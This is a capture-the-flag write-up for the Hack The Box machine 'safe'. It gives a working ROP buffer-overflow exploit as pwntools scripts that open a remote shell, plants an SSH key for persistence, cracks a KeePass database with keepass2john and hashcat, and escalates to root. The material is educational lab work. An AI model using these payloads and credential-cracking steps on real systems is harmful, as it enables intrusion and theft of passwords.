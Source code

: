 # Hackthebox: safe

## 1. Analysis
At the time of writing, safe is active at `10.10.10.147`. Viewing the page gives the default Apache2 debian page. Nothing is visibly different, but viewing source reveals a comment at the start:
```
<!-- 'myapp' can be downloaded to analyze from here
     its running on port 1337 -->
```

Great, something to target. It's running on port `1337`, and can be downloaded at `10.10.10.147/myapp`. `file myapp` shows it's a 64bit `ELF` executable. The app will first run `/usr/bin/uptime`, and then print `What do you want me to echo back?`. It then waits for user input, uses `gets()` *\*cough*\* **insecure** *\*cough\** to get the user input, prints it to screen, then exits.

Running `echo $(perl -e 'print "A"x150') | ./myapp` gives us a lovely little `Segmentation fault` :). Further testing reveals that it will overwrite rbp, and crash, with more than 120 characters. Great, all we need is to throw in some `/bin/sh` shellcode and boom, shell... well, no. Unfortunately the binary has the `NX` bit set, meaning we're limited to ROP gadgets to do our bidding.

Analyzing the disassembly reveals a function called `test`, which is never called:
```x86asm
.text:0000000000401152                 public test
.text:0000000000401152 test            proc near
.text:0000000000401152 ; __unwind {
.text:0000000000401152                 push    rbp
.text:0000000000401153                 mov     rbp, rsp
.text:0000000000401156                 mov     rdi, rsp
.text:0000000000401159                 jmp     r13
.text:0000000000401159 test            endp
```
This is great, specifically the `jmp r13` part of it ;). All we need is a way to control `r13`. Let's see what `ropper` gives us:
```bash
$ ropper -f ./myapp | grep "r13"
0x0000000000401204: pop r12; pop r13; pop r14; pop r15; ret; 
0x0000000000401206: pop r13; pop r14; pop r15; ret; 
0x0000000000401203: pop rbp; pop r12; pop r13; pop r14; pop r15; ret; 
0x0000000000401205: pop rsp; pop r13; pop r14; pop r15; ret; 
```
We don't want to touch rsp or rbp, and the first one just makes our payload larger - `0x0000000000401206` is our target. Remember that we can't just place some shellcode and jump to that, instead we'll abuse the use of `system()`, which is at `0x0000000000401040`. `system()` uses rdi for it's argument - a pointer to a string that is the command to be executed... now how would we modify rdi?... Once again, `test` comes to our rescue:
```x86asm
.text:0000000000401156                 mov     rdi, rsp
```
All we need is to place `/bin/sh` at `rsp` when it hits segfault. If we test this, we find out it's 120 characters in. `/bin/sh` is 8 characters, including null-byte (`/bin/sh\x00`), so we need 112 bytes of junk.

## 2. Putting it together:
Recapping the above: we need 112 bytes of junk, followed by `/bin/sh\x00`, then the address of the pop gadget which will be called. The next 3 values will go into `r13`, `r14`, and `r15` respectively. `r13` needs to be the address of `system()`, `r14`, and `r15` are irrelevant, and can be null. Finally comes the address of `test`, where the magic happens. The final payload should look something like this:
```x86asm
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA ; junk 
/bin/sh\x00 ; string passed to system()
\x06\x12\x40\x00\x00\x00\x00\x00 ; address of pop gadget
\x40\x10\x40\x00\x00\x00\x00\x00 ; address of system() -> r13
\x00\x00\x00\x00\x00\x00\x00\x00 ; null -> r14
\x00\x00\x00\x00\x00\x00\x00\x00 ; null -> r15
\x52\x11\x40\x00\x00\x00\x00\x00 ; address of test
```
or in python:
```python
from pwn import *

junk = "A"*112
sh = "/bin/sh\x00"
pop = "\x06\x12\x40\x00\x00\x00\x00\x00"
system_r13 = "\x40\x10\x40\x00\x00\x00\x00\x00"
null_r14_r15 = "\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00"
test = "\x52\x11\x40\x00\x00\x00\x00\x00"

payload = junk + sh + pop + system_r13 + null_r14_r15 + test
app = process("./myapp")
app.sendline(payload)
app.interactive()
```
Running this gives us a lovely 
```
$
``` 
:)

## 3. Getting the user flag:
With some simple changes to the exploit, we can remotely exploit it:
```python
from pwn import *

junk = "A"*112
sh = "/bin/sh\x00"
pop = "\x06\x12\x40\x00\x00\x00\x00\x00"
system_r13 = "\x40\x10\x40\x00\x00\x00\x00\x00"
null_r14_r15 = "\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00"
test = "\x52\x11\x40\x00\x00\x00\x00\x00"

payload = junk + sh + pop + system_r13 + null_r14_r15 + test
app = remote("10.10.10.147","1337")
app.sendline(payload)
app.interactive()
```

Running this gives us a shell on the machine. Navigating to `/home/user` gives the user flag, which is... well, you can find out yourself ;). Time for the next step, which is getting the root flag.

## 4. Getting the root flag:
Looking in the user home directory, reveals a few interesting files:
```
$ ls
IMG_0545.JPG
IMG_0546.JPG
IMG_0547.JPG
IMG_0548.JPG
IMG_0552.JPG
IMG_0553.JPG
myapp
MyPasswords.kdbx
user.txt
```

`.kdbx`?! huh? What on earth is that? ~~Googling~~ DuckDuckGo-ing tells us that it's a keepass file. There's also a bunch of photos... could they have something to do with the `.kdbx`? Searching `JPG keepass` on duckduckgo links us to [here](https://keepass.info/help/base/keys.html): "The database can also be locked using a key file. A key file is basically a master password in a file... KeePass can generate key files for you, however you can also use any other, already existing file (like **JPG** image, DOC document, etc.).". [This](https://www.rubydevices.com.au/blog/how-to-hack-keepass) website talks about a tool called `keepass2john` which is used to extract master keys hashes from key files. Great, let's get these files on our local machine. We get our public key from `~/.ssh/id_rsa.pub` on our machine, and `echo` that into `~/.ssh/authorized_keys` on the remote machine:
```
echo "ssh-rsa **key** username@machinename" > .ssh/authorized_keys
```
Now we can use `scp` and `ssh`. For each image, we run `scp user@10.10.10.147:/home/user/IMG_xxx.JPG ./`, followed by `keepass2john -k IMG_xxx.JPG MyPasswords.kbdx`. We now have master password hashes we can crack. `hashcat` has an option for keypass hashes - `-m 13400`. Iterating over all the extracted hashes reveals that the third image (`IMG_0547.JPG`) contains the master password, which is `bullshit`. Using `keepassx`, we can open `MyPasswords.kdbx`, using password `bullshit`. KeePassX shows that there is a password in the db called "Root password". We `ssh` back into the machine (as user), and run `su root`, giving the password we found in the db:
```
user@safe:~$ su root
Password: 
root@safe:/home/user# whoami
root
root@safe:/home/user# cd ~
root@safe:~# ls
root.txt
root@safe:~# cat root.txt
<REDACTED>
```
Machine owned :)

Happy Hacking!
